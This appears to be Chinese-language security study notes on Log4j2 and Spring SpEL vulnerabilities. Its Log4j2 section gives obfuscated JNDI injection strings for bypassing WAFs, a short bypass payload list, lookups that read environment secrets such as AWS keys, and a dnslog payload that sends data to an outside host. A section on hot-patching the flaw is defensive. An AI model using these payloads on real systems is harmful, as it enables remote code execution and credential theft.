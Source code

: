 

### Log4j2绕WAF的手段有哪些

使用类似`${::-J}`的方式做字符串的绕过，还可以结合`upper`和`lower`标签进行嵌套

有一些特殊字符的情况结合大小写转换有巧妙的效果，还可以加入垃圾字符

例如：`${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}`



### Log4j2除了RCE还有什么利用姿势

利用其他的`lookup`可以做信息泄露例如`${env:USER}`和`${env:AWS_SECRET_ACCESS_KEY}`

在`SpringBoot`情况下可以使用`bundle:application`获得数据库密码等敏感信息，不过`SpringBoot`默认不使用`log4j2`

这些敏感信息可以利用`dnslog`外带`${jndi:ldap://${java:version}.xxx.dnslog.cn}`



### 不停止运行程序如何修复Log4j2漏洞

利用JavaAgent改JVM中的字节码，可以直接删了`JndiLookup`的功能

有公众号提出类似`Shiro`改`Key`的思路，利用反射把`JndiLookup`删了也是一种办法

### log4j2绕过payload

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/ass}
${${::-j}ndi:rmi://127.0.0.1:1389/ass}
${jndi:rmi://a.b.c}
${${lower:jndi}:${lower:rmi}://q.w.e/poc}
${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}
```
## spring


### Spring Whitelabel SPEL RCE

Spring处理参数值出错时会将参数中`${}`中的内容当作`SPEL`解析实现，造成`RCE`漏洞



### Spring Data REST SPEL RCE

当使用`JSON PATCH`对数据修改时，传入的`PATH`参数会解析`SPEL`



### Spring Web Flow SPEL RCE

在`Model`的数据绑定上存在漏洞，但漏洞出发条件比较苛刻

由于没有明确指定相关`Model`的具体属性，导致从表单可以提交恶意的表达式`SPEL`被执行


